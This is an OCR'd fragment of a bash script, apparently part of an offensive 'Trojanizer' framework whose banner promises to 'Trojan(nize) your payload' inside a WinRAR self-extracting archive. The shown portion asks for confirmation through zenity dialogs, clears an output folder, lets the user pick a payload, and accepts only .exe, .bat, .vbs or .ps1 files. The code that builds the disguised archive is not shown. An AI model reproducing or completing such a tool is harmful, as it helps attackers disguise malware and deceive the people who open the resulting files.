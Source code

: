 !
echo ${YellowF}"                  'Trojan(nize) your payload (Winrar SFX automatization)'"${Reset};
echo "" && echo ""
#
# Chose to run or to abort framework execution ..
#
rUn=$(zenity --question --title="☠ Trojan ☠" --text "Execute framework?" --width 270) > /dev/null 2>&1
  if [ "$?" -eq "0" ]; then
    #
    # Clean all things up, befor continue ..
    #
    rm -r $IPATH/output > /dev/null 2>&1
    mkdir $IPATH/output > /dev/null 2>&1



#
# Store user inputs (into local variables)..
#
binary_path=$(zenity --title "☠ PAYLOAD TO BE COMPRESSED ☠" --filename=$IPATH --file-selection --text "chose payload to be COMPRESSED") > /dev/null 2>&1
   #
   # grab only the executable name from the full path
   # ^/ (search for expression) +$ (print only last espression)
   #
   cd $IPATH/output
   echo "$binary_path" > rep.log
   Str=`grep -oE '[^/]+$' rep.log` > /dev/null 2>&1
   Ext=`echo $Str | cut -d '.' -f2` > /dev/null 2>&1
   rm rep.log > /dev/null 2>&1
   if [ "$SIN_GL" = "ON" ]; then
     pa_in="COMPATIBLE"
     echo "all extensions are allowed in 'single_file_execution'" > /dev/null 2>&1
   else
     #
     # Check if agent (payload) inputed its compatible with trojanizer tool
     #
     if [ "$Ext" = "exe" ] || [ "$Ext" = "bat" ] || [ "$Ext" = "vbs" ] || [ "$Ext" = "ps1" ]; then
       pa_in="COMPATIBLE"
     else
       echo ${RedF}[x]${white} Payload inputed not compatible:${RedF} .$Ext ${Reset};
       echo ${RedF}[x]${white} Abort framework execution .. ${Reset};
       sleep 2
       exit
     fi
   fi
